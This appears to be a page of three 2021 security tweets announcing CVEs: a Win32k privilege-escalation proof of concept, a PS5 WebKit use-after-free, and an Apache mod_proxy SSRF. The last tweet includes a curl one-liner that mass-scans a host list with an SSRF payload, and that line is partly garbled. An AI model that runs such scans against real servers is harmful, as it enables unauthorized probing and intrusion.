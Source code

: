 
# ly4k_
**https://twitter.com/ly4k_/status/1449412505894330372 _at 2021-10-16 16:30:44_**
<blockquote>
I've created a PoC (DoS) for CVE-2021-40449 (Win32k - LPE) with a technical writeup, commented code, and steps to further exploit the vulnerability. Before going further myself, I thought I'd share this.

https://t.co/wKjw5iZIjb
</blockquote>

* https://github.com/ollypwn/CallbackHell

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>110</code></td>
<td>Favorites: <code>289</code></td>
</tr></table>

---

# PSXHaxDOTcom
**https://twitter.com/PSXHaxDOTcom/status/1449135949850497027 _at 2021-10-15 22:11:48_**
<blockquote>
PS5 WebKit Also Affected by Use-After-Free Vulnerability (CVE-2021-30858)
https://t.co/c9uzJGg7EQ
</blockquote>

* https://www.psxhax.com/threads/ps5-webkit-also-affected-by-use-after-free-vulnerability-cve-2021-30858.10279/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>104</code></td>
</tr></table>

---

# HackerGautam
**https://twitter.com/HackerGautam/status/1449120404178563072 _at 2021-10-15 21:10:02_**
<blockquote>
CVE-2021-40438 Apache mod_proxy SSRF 🔥

✅One Liner POC :
cat file.txt | while read host do;do curl --path-as-is --insecure "$host/?unix:(7701 A's here) | "https://t.co/VOG5gPgWOE" | grep "request caught" &amp;&amp; echo "$host \033[0;31mVuln\n" || echo "$host \033[0;32mNot\n";done
</blockquote>
